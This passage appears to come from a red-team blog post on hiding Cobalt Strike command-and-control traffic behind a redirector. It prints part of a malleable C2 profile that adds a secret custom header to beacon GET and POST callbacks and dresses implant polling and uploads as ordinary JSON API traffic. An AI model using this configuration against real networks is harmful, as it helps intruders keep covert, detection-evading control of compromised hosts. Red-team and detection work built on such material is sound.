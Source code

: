 We then need to ensure that our callback traffic includes the custom header in all our GET and POST requests. For Cobalt Strike, this can be achieved by adding the header to the `http-get` and `http-post` `client` blocks, as below (adapting [@xpn](https://twitter.com/_xpn_)'s profile from the Lambda redirector [blog](https://blog.xpnsec.com/aws-lambda-redirector/) for simplicity).

{% highlight javascript %}
http-config {
    set trust_x_forwarded_for "true";
}

http-get {
    set uri "/poll";
    client {
        header "X-Custom-PSK" "[SOME_VALUE]";      

        metadata {
            base64url;
            netbios;
            base64url;
            parameter "token";
        }
    }

    server {
        header "Content-Type" "application/json; charset=utf-8";
        header "Cache-Control" "no-cache, no-store, max-age=0, must-revalidate";
        header "Pragma" "no-cache";

        output {
            base64;
            prepend "{\"version\":\"2\",\"count\":\"1\",\"data\":\"";
            append "\"}";
            print;
        }
    }
}

http-post {
    set uri "/upload";
    set verb "POST";

    client {
        parameter "action" "GetExtensibilityContext";
        header "Content-Type" "application/json; charset=utf-8";
        header "Pragma" "no-cache";
        header "X-Custom-PSK" "[SOME_VALUE]";

        id {
            parameter "token";
        }

        output {
            mask;
            base64;
            prepend "{\"version\":\"2\",\"report\":\"";
            append "\"}";
            print;
        }
    }

    server {
        header "api-supported-versions" "2";
        header "Content-Type" "application/json; charset=utf-8";
        header "Cache-Control" "no-cache, no-store, max-age=0, must-revalidate";
        header "Pragma" "no-cache";

        output {
            base64url;